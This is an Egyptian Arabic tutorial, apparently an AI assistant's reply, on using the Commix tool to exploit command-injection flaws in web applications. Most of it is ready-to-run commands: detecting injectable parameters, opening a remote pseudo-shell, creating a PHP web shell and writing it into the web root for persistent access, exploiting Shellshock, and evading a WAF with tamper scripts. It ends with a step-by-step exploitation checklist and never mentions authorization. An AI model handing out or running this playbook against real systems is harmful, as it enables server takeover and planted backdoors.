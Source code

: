 تمام، هنشرح **Commix** بعمق عملي كأداة لاستغلال Command Injection، مع أكواد وتفاصيل، وهنركز على الجوانب اللي تهمك كـ pentester. هقسم الموضوع لأجزاء مختلفة عن استخدام Commix، وبعد كل جزء هحط خلاصة طريفة بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال. يلا نبدأ!

---

### **1. اكتشاف الثغرة باستخدام Commix**
#### **إيه هو؟**
 ال Commix هي أداة مفتوحة المصدر بتستخدم لاختبار واكتشاف ثغرات Command Injection في التطبيقات الويب تلقائيًا، سواء كانت الثغرة في باراميتر أو هيدر.

#### **ازاي بيشتغل؟**
بتديله الـ URL أو الطلب (Request) اللي ممكن يكون فيه ثغرة، وهو بيجرب كذا تقنية (زي Classic، Blind، Time-Based) ويرجعلك لو لقى حاجة.

#### **مثال عملي:**
- **اختبار URL بسيط:**
  ```
  commix --url="http://example.com/ping.php?ip=127.0.0.1"
  ```
  لو الـ `ip` قابل للحقن، هيقولك "The parameter 'ip' is vulnerable".

- **اختبار POST Request:**
  لو في فورم:
  ```
  commix --url="http://example.com/login.php" --data="username=admin&password=test"
  ```
  هيختبر الـ `username` و `password`.

- **اختبار سريع:**
  ```
  commix --url="http://example.com/ping.php?ip=127.0.0.1" --batch
  ```
  الـ `--batch` بيخليه يجاوب تلقائيًا من غير ما يسألك.

#### **خلاصة طريفة:**
تخيل إنك بتبعت واحد بيشوف البيت فيه خرم ولا لأ، لو لقى خرم بيقولك "خش بسرعة، الباب مفتوح يا كبير!"

---

### **2. تنفيذ أوامر مباشرة**
#### **إيه هو؟**
Commix مش بس بيكتشف الثغرة، لكنه كمان بيسمحلك تنفذ أوامر نظام زي `whoami` أو `dir` على السيرفر لو الثغرة شغالة.

#### **ازاي بيشتغل؟**
بعد ما يكتشف الثغرة، بيفتحلك شيل (Pseudo-Terminal) تكتب فيه الأوامر.

#### **مثال عملي:**
- **تشغيل أمر معين:**
  ```
  commix --url="http://example.com/ping.php?ip=127.0.0.1" --os-cmd="whoami"
  ```
  لو نجح، هيرجعلك اسم المستخدم (زي `www-data`).

- **فتح شيل:**
  ```
  commix --url="http://example.com/ping.php?ip=127.0.0.1"
  ```
  لو لقى ثغرة، بيسألك:
  ```
  Do you want a Pseudo-Terminal shell? [Y/n/q]
  ```
  اكتب `Y`، وبعدين اكتب أوامر زي:
  ```
  commix(os_shell) > whoami
  ```

#### **خلاصة طريفة:**
تخيل إنك بتكلم السيرفر وتقوله "قوللي مين إنت؟"، لو رد عليك "أنا فلان"، يبقى بقيت إنت اللي بتحكمه!

---

### **3. كتابة ملفات على السيرفر**
#### **إيه هو؟**
Commix بيقدر يكتب ملفات على السيرفر لو الثغرة تسمح، وكده تقدر ترفع شيل دائم.

#### **ازاي بيشتغل؟**
بتستخدم خيارات زي `--file-write` و `--file-dest` عشان تكتب ملف في مكان معين.

#### **مثال عملي:**
- **كتابة شيل:**
  اصنع ملف شيل:
  ```
  echo '<?php system($_GET["cmd"]); ?>' > shell.php
  ```
  شغل:
  ```
  commix --url="http://example.com/ping.php?ip=127.0.0.1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
  ```
  افتح:
  ```
  http://example.com/shell.php?cmd=whoami
  ```

#### **خلاصة طريفة:**
تخيل إنك بتبعت ورقة تعليمات للسيرفر "اعمل اللي أقولك عليه"، لو نفذها يبقى بقيت إنت المالك بتاع البيت!

---

### **4. استغلال Shellshock**
#### **إيه هو؟**
Commix بيقدر يستغل ثغرة Shellshock (في Bash) لو الموقع معرض ليها، ويديك شيل كامل.

#### **ازاي بيشتغل؟**
بتضيف `--shellshock` وهو بيختبر الثغرة دي.

#### **مثال عملي:**
- **اختبار Shellshock:**
  ```
  commix --url="http://example.com/cgi-bin/test.sh" --shellshock
  ```
  لو نجح، هيفتح شيل:
  ```
  commix(os_shell) > id
  ```

#### **خلاصة طريفة:**
تخيل إنك بتخبط على باب قديم مكسور، لو اتفتح بسهولة يبقى دخلت البيت من غير مفتاح!

---

### **5. تخصيص الاختبار (Advanced Options)**
#### **إيه هو؟**
Commix فيه خيارات متقدمة عشان تتحكم في الاختبار، زي اختيار نوع الثغرة أو اختبار هيدرز.

#### **ازاي بيشتغل؟**
بتستخدم أوامر زي `--level` أو `--technique` عشان تظبط الاختبار.

#### **مثال عملي:**
- **اختبار هيدرز:**
  ```
  commix --url="http://example.com/ping.php?ip=127.0.0.1" --level=3
  ```
  الـ `--level=3` بيختبر الهيدرز زي `User-Agent`.

- **تحديد تقنية:**
  ```
  commix --url="http://example.com/ping.php?ip=127.0.0.1" --technique=T
  ```
  الـ `T` لـ Time-Based بس.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "فتش البيت كله، حتى الستاير افتحها"، لو لقى حاجة يبقى جاب الكنز بسرعة!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **اكتشاف الثغرة:**
   - ابدأ بـ:
     ```
     commix --url="http://example.com/ping.php?ip=127.0.0.1" --batch
     ```
   - لو POST، استخدم:
     ```
     commix --url="http://example.com/login.php" --data="username=admin&password=test"
     ```

2. **تنفيذ أوامر:**
   - جرب أمر مباشر:
     ```
     commix --url="http://example.com/ping.php?ip=127.0.0.1" --os-cmd="whoami"
     ```
   - أو افتح شيل:
     ```
     commix --url="http://example.com/ping.php?ip=127.0.0.1"
     ```

3. **كتابة شيل:**
   - اصنع ملف:
     ```
     echo '<?php system($_GET["cmd"]); ?>' > shell.php
     ```
   - ارفعه:
     ```
     commix --url="http://example.com/ping.php?ip=127.0.0.1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
     ```

4. **اختبار Shellshock:**
   - شغل:
     ```
     commix --url="http://example.com/cgi-bin/test.sh" --shellshock
     ```

5. **تخصيص:**
   - لو عايز تختبر هيدرز:
     ```
     commix --url="http://example.com/ping.php?ip=127.0.0.1" --level=3 --batch
     ```

#### **نصيحة:**
- لو في حماية زي WAF، جرب `--tamper` (زي `--tamper=space2comment`).
- دوّن كل أمر ونتايجه في تقريرك.

---

ها، عايز أشرح حاجة زيادة زي `--tamper` أو أجرب معاك مثال معين؟